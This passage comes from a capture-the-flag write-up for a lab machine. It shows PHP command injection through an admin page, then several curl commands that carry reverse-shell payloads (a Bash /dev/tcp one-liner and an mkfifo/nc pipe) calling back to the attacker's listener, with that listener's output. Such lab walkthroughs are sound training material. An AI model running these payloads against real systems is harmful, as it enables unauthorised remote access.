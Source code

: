 ## Shell as www-data

### Execution

I just showed that PHP is being executed. I can use `system` to run
commands. For example, entering `<?php system("id"); ?>` shows that it's
running as www-data:



    root@kali# curl -s -G http://10.10.10.27/admin.php --data-urlencode .md=<?php system("id"); ?>' --cookie adminpowa=noonecares | sed -e '1,/<\/body><\.md>/ d'
    uid=33(www-data) gid=33(www-data) groups=33(www-data)



I'm using `sed` here to remove all the content up to `</body><.md>` at
the end to just get the output. I'm also using `curl` with `-G` and
`--data-urlencode` to url encode parameters in the GET request.

### RevShell Fail

With execution, rather than enumerate through this webshell, I'd rather
get a legit shell. I started `nc` listening on my host, and ran a Bash
reverse shell:



    root@kali# curl -s -G http://10.10.10.27/admin.php --data-urlencode .md=<?php system("bash -c \"bash -i >& /dev/tcp/10.10.14.24/443 0>&1\""); ?>' --cookie adminpowa=noonecares



I get a connection back, but it immediately dies:



    root@kali# nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.27.
    Ncat: Connection from 10.10.10.27:47324.
    bash: cannot set terminal process group (1376): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@calamity:/var/www.md$ root@kali#



I tried a different reverse shell, but got the same result:



    root@kali# curl -s -G http://10.10.10.27/admin.php --data-urlencode .md=<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.24 443 >/tmp/f"); ?>' --cookie adminpowa=noonecares



To try a Python reverse shell, rather than try to get the one-liner into
`curl` with all the `'` and `"`, I created a file `rev.py` locally with
a [python reverse
shell](https://github.com/infodox/python-pty-shells/blob/master/tcp_pty_backconnect.py),
and hosted it with `python3 -m http.server 80`.
